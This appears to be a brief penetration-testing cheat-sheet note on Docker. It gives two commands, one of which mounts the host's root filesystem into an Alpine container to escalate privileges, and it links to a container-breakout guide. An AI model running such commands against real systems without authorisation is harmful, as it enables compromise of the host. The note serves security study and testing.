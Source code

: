 ```yaml
---
tags:
  - Exploitation
  - KnownExploits
  - Applications
---
```

[Docker: Use Containers to Build, Share and Run Your Applications](https://www.docker.com/resources/what-container)

# Guide

1. If the shell gain is within a Docker container, make sure you are within the correct server or that the exploit cant be changed to escape.

# Privilege Escalation

```
docker image ls
```

```
docker run -v /:/mnt -it alpine
```
# Escape Container

[Docker Breakout / Privilege Escalation | HackTricks | HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

